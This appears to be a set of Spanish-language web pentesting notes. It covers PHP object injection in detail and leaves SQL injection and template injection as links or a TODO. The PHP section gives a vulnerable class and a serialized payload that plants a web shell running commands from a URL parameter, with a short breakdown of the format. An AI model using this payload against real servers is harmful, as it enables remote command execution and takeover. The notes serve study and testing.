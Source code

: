 # Server-Side Template Injection

TODO

# PHP Object Injection

## Código

```php
class foobarzoo {
    public $csv="entries.csv";
    public $line=null;
    
    function __destruct() {
        file_put_contents($this->csv,$this->line);
    }
}
```

## Payload de explotación

`data=O:9:"foobarzoo":2:{s:3:"csv";s:8:"evil.php";s:4:"line";s:28:"<?php system($_GET["cmd"])?>";}`

Donde en `O:9:"foobarzoo":2:`:
- `O` &rarr; tipo de dato (objeto).
- `0` &rarr; longitud dato.
- `2` &rarr; cantidad de propiedades.

Donde en `s:3:"csv";s:8:"evil.php"`:
- `s` &rarr; tipo de dato (string).
- `3` &rarr; longitud dato.
- `csv` &rarr; nombre de propiedad.
- `evil.php` &rarr; valor de propiedad.


## Referencias

- https://insomniasec.com/downloads/publications/Practical%20PHP%20Object%20Injection.pdf
- https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection
- https://nitesculucian.github.io/2018/10/05/php-object-injection-cheat-sheet/
- https://security.stackexchange.com/questions/176263/why-does-this-php-object-injection-exploit-work
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/628481cd4d9c9f7db980a6a92c446d22c26a4aad/Insecure%20Deserialization/PHP.md

# SQL

## sqlmap

https://teckk2.github.io/web-pentesting/2018/02/07/SQL-Injection-(Login-Form-User).html